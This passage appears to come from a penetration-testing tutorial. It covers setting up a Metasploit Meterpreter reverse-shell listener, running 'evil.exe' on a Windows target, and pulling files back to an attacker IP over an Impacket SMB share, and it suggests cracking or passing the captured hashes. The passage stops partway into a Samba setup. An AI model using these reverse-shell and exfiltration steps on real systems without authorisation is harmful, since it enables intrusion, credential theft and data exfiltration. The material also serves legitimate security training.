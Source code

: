 You don't really need to specify the platform or architecture since you basically specify that in the payload list, under `windows/x64/meterpreter/reverse_tcp`. Don't forget to point to your LHOST and LPORT too.

Now you can upload that however you'd like. Set up a webserver in python using `python -m http.server`, send it via SMB, however you'd like. Now start up metasploit using `sudo msfdb run`.

Once it loads, set up your listener with the following commands:

```terminal
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > set LHOST 10.10.20.30
msf6 > set LPORT 9090
msf6 > exploit
```

And now all you need to do is just execute `evil.exe` on the remote server. If it works you'll see a callback. If it doesn't, then Defender most likely shot it down.

### Getting Data To and From the Target

If you have a shell on the remote target and you would like to move a file or files from the target to your local machine, there are a few techniques you can do.

#### SMB

SMB is probably the most "Microsoft" way of moving data between two endpoints, and if you are determined enough, you can use it to copy files to and from the target machine. Locally, you'll want to make sure you have the [Impacket libraries](https://github.com/fortra/impacket), as it comes with a script named `smbserver.py`. From there, on your local machine, you would create a directory to serve and execute the script like so:

```terminal
$ mkdir ./smb/
$ smbserver.py -smb2support folder ./smb/
```

Now on the remote server, you can copy the file to yourself like it's any other file system.

```terminal
PS > copy ./someFile.txt //10.10.10.10/folder/
```

You will also get the added benefit of seeing the authentication hash of the user logged in to the windows server in the impacket screen. If you don't know the password, this might be worthwhile to attempt to either crack it or perform a Pass-The-Hash attempt. But I digress...

Now in some cases less rare than I'd like, sometimes this will fail due to incompatibility reasons. In that case, sometimes it's better to just let Samba do it since it's a bit more refined than Impacket.

To use Samba, first make sure it's installed:

```terminal
$ sudo apt-get install samba
```

Now create a directory just for a samba dumping ground:
